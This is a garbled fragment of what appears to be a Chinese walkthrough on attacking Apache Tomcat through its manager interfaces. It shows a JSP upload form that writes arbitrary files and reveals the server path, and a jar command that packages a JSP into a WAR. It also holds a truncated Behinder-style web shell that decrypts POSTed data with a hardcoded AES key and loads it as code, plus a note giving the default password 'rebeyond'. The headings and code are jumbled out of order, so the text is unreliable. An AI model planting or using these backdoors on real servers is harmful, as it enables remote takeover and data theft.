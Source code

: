 ```
    <font color="blue">本文件的路径:</font><%out.print(request.getRealPath(request.getServletPath())); %>
    <br>

    <br>

    <font color="blue">上传文件路径:</font><input type="text" size="70" >
    <br>

    <br>

    上传文件内容:<textarea ></textarea>
    <br>

    <br>

    <input type="submit" >
    </form>
  </body>
</html>

```

manager（后台管理）

```
jar -cvf dayu.war dayu.jsp

```

host-manager（虚拟主机管理

```
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuff

```

访问一下

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaytctPEv1eCmYzPCem5E4tZtu4maIVv2r5myicb0aukb77XSU8Zz0etA/640?wx_fmt=jpeg)

访问一下它的后台管理地址

```
/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QanDJE6LVEpBMLU5vmmEsrqkl8HmGDpKOvCteGvxuOGpexw9fSgEKwTA/640?wx_fmt=jpeg)

或者点这里
